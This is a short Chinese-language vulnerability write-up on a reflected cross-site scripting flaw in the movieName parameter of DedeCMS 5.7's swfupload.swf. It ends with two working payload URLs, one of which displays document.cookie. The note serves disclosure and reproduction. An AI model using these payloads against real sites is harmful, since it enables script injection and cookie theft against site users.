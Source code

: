 # Dedecms swf文件反射型xss

## 一、漏洞简介

`DedeCMS 5.7 /images/swfupload/swfupload.swf`文件movieName参数没有合适过滤，导致跨站脚本漏洞。

## 二、漏洞影响

## 三、复现过程

**代码分析**

详细说明：

`Location: /uploads/images/swfupload/swfupload.swf`

漏洞文件为：`http://www.dedecms.com/images/swfupload/swfupload.swf`

这个flash文件存在漏洞，此文件漏洞可参考:

https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/

**复现**


```bash
/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian最帅%22%29}}// 

/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}//
```